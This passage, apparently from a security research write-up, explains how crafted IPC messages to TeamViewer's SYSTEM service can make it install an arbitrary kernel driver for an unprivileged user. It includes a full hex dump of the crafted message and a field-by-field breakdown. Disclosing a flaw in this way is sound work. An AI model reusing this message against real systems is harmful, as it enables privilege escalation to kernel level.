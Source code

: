 Once we have authenticated and we have send the *Control IPC message* with the correct PID we are able to send the *Driver Install Message*. YUP! :).

In this message, among other things, we are indicating the *--inf* parameter that will be used later by the SYSTEM process, allowing us to install an arbitrary Kernel Driver from an unprivileged user.

Here is an example message.

```
0000   08 00 01 00 35 01 00 00 33 0c 01 01 00 00 00 01   ....5...3.......
0010   02 04 00 00 00 02 00 00 00 03 96 00 00 00 2d 00   ..............-.
0020   2d 00 69 00 6e 00 66 00 20 00 43 00 3a 00 5c 00   -.i.n.f. .C.:.\.
0030   4e 00 6f 00 74 00 20 00 50 00 72 00 6f 00 67 00   N.o.t. .P.r.o.g.
0040   72 00 61 00 6d 00 20 00 46 00 5c 00 61 00 61 00   r.a.m. .F.\.a.a.
0050   61 00 61 00 61 00 61 00 61 00 61 00 61 00 61 00   a.a.a.a.a.a.a.a.
0060   5c 00 62 00 62 00 62 00 5c 00 41 00 6e 00 6f 00   \.b.b.b.\.A.n.o.
0070   74 00 68 00 65 00 72 00 54 00 68 00 69 00 6e 00   t.h.e.r.T.h.i.n.
0080   67 00 67 00 2e 00 69 00 6e 00 66 00 20 00 2d 00   g.g...i.n.f. .-.
0090   2d 00 69 00 64 00 20 00 54 00 45 00 41 00 4d 00   -.i.d. .T.E.A.M.
00a0   56 00 49 00 45 00 57 00 45 00 52 00 56 00 50 00   V.I.E.W.E.R.V.P.
00b0   4e 00 00 00 05 02 00 00 00 00 00 06 02 00 00 00   N...............
00c0   00 00 07 01 00 00 00 00 08 46 00 00 00 4c 00 6f   .........F...L.o
00d0   00 63 00 61 00 6c 00 5c 00 44 00 72 00 69 00 76   .c.a.l.\.D.r.i.v
00e0   00 65 00 72 00 49 00 6e 00 73 00 74 00 61 00 6c   .e.r.I.n.s.t.a.l
00f0   00 6c 00 46 00 69 00 6e 00 69 00 73 00 68 00 45   .l.F.i.n.i.s.h.E
0100   00 76 00 65 00 6e 00 74 00 5f 00 56 00 50 00 4e   .v.e.n.t._.V.P.N
0110   00 00 00 09 04 00 00 00 00 00 00 00 f3 04 00 00   ................
0120   00 02 00 00 00 fd 04 00 00 00 01 00 00 00 fe 01   ................
0130   00 00 00 01 ff 04 00 00 00 95 d4 04 31            ............1
```

- First of all we have the header
	- `08 00 01 00 35 01 00 00`
	- As we can see it is 8-bytes long (as indicated by the first byte). The next three bytes appear to be always the same and I do not known exactly their task.
	- Then we have the next 4-bytes, indicating the length of the message.
- The we have the *sub header*
	- `33 0c 01 01 00 00 00`. This indicates the type of message.
- Then, we have 22 bytes that I always maintain the same and I actually do not kwow that the mean.
- After that, there is the *--inf* parameter string.
- There comes some other parameters and the end.
- In this case the tail is a bit different because it contains the following bytes after the common one, `ff 04 00 00 00 95 d4 04 31`.
## First Fail: Authentication needed

My first try was to just send the Driver installation request. Short story, it does not work.

I started looking at the log and it contained an error message from the *IPC Structure Parser* because it is expecting some type of message (the authentication one) that is different from the one we are sending.

It was then when I started capturing legitimate traffic and searching for patterns. I notice that the server was sending the 16-byte message shown before and that when sending the same first message the server responds back with the same 16-byte.
